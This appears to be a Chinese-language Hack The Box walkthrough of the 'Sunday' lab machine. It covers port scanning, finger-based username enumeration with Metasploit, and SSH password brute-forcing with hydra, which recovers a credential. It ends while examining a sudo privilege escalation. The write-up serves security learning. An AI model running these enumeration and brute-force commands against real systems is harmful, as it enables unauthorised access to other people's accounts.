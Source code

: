 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务发现
这个靶机非常的不稳定，先用```--open```参数看看有哪些端口打开
```
┌──(root💀kali)-[~/htb/Sunday]
└─# nmap -p- 10.10.10.76 --open
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-16 09:22 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.35% done; ETC: 09:32 (0:09:46 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.30s latency).
Not shown: 44865 filtered ports, 20665 closed ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
22022/tcp open  unknown
47097/tcp open  unknown
58984/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 653.01 seconds



```

指定端口，获取服务详细信息看看
```
┌──(root💀kali)-[~/htb/Sunday]
└─# nmap -sV -sC 10.10.10.76 -A -O -p 79,111,22022,47097,58984
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-16 09:36 EST
Nmap scan report for 10.10.10.76
Host is up (0.30s latency).

PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
47097/tcp open  unknown
58984/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|phone
Running: Linux 2.4.X|2.6.X, Sony Ericsson embedded
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
Network Distance: 21 hops
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos

TRACEROUTE (using port 79/tcp)
HOP RTT        ADDRESS
1   306.96 ms  10.10.14.1
2   2362.53 ms 10.10.14.1
3   2362.68 ms 10.10.14.1
4   ... 10
11  3138.72 ms 10.10.14.1
12  2460.64 ms 10.10.14.1
13  ... 20
21  297.28 ms  10.10.10.76

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.18 seconds



```

79端口在[hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-finger)是这样介绍的
>Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user's plan and project files.

也就说这个服务可以回显一些靶机的用户信息，比如
```
┌──(root💀kali)-[~/htb/sunday]
└─# finger root@10.10.10.76                                                                                                                                                                                    1 ⨯
Login       Name               TTY         Idle    When    Where
root     Super-User            pts/3        <Apr 24, 2018> sunday 

```

但是如果探测一个不存在的用户，则啥都没有
```
┌──(root💀kali)-[~/htb/sunday]
└─# finger asdjkasjd@10.10.10.76
Login       Name               TTY         Idle    When    Where
asdjkasjd             ???

```

因此，利用这个功能，我们可以知道靶机上有哪些真实存在的用户。

使用[这个字典](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt#L8)

以及msf里面的```scanner/finger/finger_users```模块，探测到以下用户信息
```
msf6 auxiliary(scanner/finger/finger_users) > run

[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nobody
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: noaccess
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nobody4
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: adm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: lp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: uucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: nuucp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: dladm
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: listen
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: smmsp
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: sammy
[+] 10.10.10.76:79        - 10.10.10.76:79 - Found user: sunny
[+] 10.10.10.76:79        - 10.10.10.76:79 Users found: adm, dladm, listen, lp, noaccess, nobody, nobody4, nuucp, sammy, smmsp, sunny, uucp
[*] 10.10.10.76:79        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```sammy```和```sunny```看上去比较像可以用ssh登录的用户
测试一下
```
 finger sammy@10.10.10.76
Login       Name               TTY         Idle    When    Where
sammy    sammy                 console      <Jul 31, 2020>
                                                                                                                                                                                                                   
┌──(root💀kali)-[~/htb/sunday]
└─# finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny    sunny                 pts/3        <Apr 24, 2018> 10.10.14.4   
```

保存到user.txt,使用hydra爆破ssh

```
┌──(root💀kali)-[~/htb/sunday]
└─# hydra -L /root/htb/sunday/user.txt -P  /usr/share/wordlists/rockyou.txt -I -f  -s 22022 10.10.10.76 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-16 10:59:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:2/p:2), ~1 try per task
[DATA] attacking ssh://10.10.10.76:22022/
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-16 10:59:23

```


得到一个ssh用户凭证：```sunny : sunday```

```
sunny@sunday:~/Documents$ find / -name user.txt
find: /export/home/sammy/.gnome2: Permission denied
find: /export/home/sammy/.gconf: Permission denied
/export/home/sammy/Desktop/user.txt

```

# 提权

查看sudo特权
```
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll

```

尝试执行这条命令：
```
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)

```

打印出了root的用户组，类似于```id```命令